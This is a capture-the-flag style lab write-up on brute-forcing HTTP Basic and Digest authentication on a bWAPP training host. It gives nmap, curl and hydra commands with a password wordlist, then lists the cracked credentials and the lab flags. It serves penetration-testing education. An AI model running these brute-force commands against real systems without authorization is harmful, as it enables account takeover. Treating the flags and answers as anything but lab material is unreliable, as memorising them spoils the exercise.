

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Attacking HTTP Authentication with Hydra </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1894> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Determining the IP address of the target machine. **Command:** ifconfig ![ref2]

The IP address of the host machine is 192.209.143.2 Therefore, the target machine has IP address 192.209.143.3 **Step 2:** Scan the target machine using nmap. 

**Command:** nmap 192.209.143.3 

We have discovered that HTTP and MYSQL services are running on the target machine. ![ref2]**Step 3:** Checking the application available on port 80 of the target machine. 

Open the following URL in firefox: 

**URL:** http://192.209.143.3 

bWAPP application is hosted on the target machine. Visit the endpoint: “/basic” ![ref2]

**URL:** http://192.209.143.3/basic 

Enter some random username / password. ![ref2]

![ref1]

Since the username / password combination is wrong the credentials would be prompted again. 

Click on the “Cancel” button this time. 

The page shown above would be shown in response, indicating that we are not authorized to view this page. 

Checking the /digest directory: Visit the endpoint: “/digest” ![ref2]**URL:** http://192.209.143.3/digest 

Even this directory is password protected. Click the “Cancel” button and switch to command-line. 

**Step 4:** Identifying the type of authentication used for the /basic and /digest directories. Identification of the authentication used for /basic by checking the request header: **Command:** curl -I 192.209.143.3/basic/ 

**Note:** -I option is the same as --head. It is used to fetch the headers only. ![ref2]

![ref1]

Identification of the authentication used for /digest by checking the request header: **Command:** curl -I 192.209.143.3/digest/ 

**Step 5:** Using hydra to crack the Basic and Digest Auth. Checking the usage of hydra: 

**Command:** hydra 

Notice that the help message shows all the supported services and also shows an example command in the end. ![ref2]

Cracking Basic Auth using hydra: 

**Command:** hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 192.209.143.3 http-get /basic/ 

So, for the /basic directory, the credentials are: 

**Username:** admin **Password:** cookie1 

Accessing /basic/ using curl using the credentials retrieved using hydra: **Command:** curl -u admin:cookie1 192.209.143.3/basic/ 

Accessing /basic using browser: ![ref2]

Enter the credentials obtained using hydra: 

**Flag:** d25db4ce54b60b49dfd7b32c52ed8d26 Cracking Digest Auth using hydra: 

**Command:** hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 192.209.143.3 http-get /digest/ 

So, for the /digest directory, the credentials are: ![ref2]

![ref1]

**Username:** admin **Password:** adminpasswd 

Accessing /digest/ using curl using the credentials retrieved using hydra: **Command:** curl --digest -u admin:adminpasswd 192.209.143.3/digest/ 

Accessing /digest using browser: 

Enter the credentials obtained using hydra: 

**Flag:** 9aae03448d62145a8b462858d54434de ![ref2]

**References: ![ref2]**

1\. Hydra (<https://github.com/vanhauser-thc/thc-hydra>) 

[ref1]: Aspose.Words.f52cb5e5-fd63-4d4e-a937-3b389850fec0.002.png
[ref2]: Aspose.Words.f52cb5e5-fd63-4d4e-a937-3b389850fec0.003.png
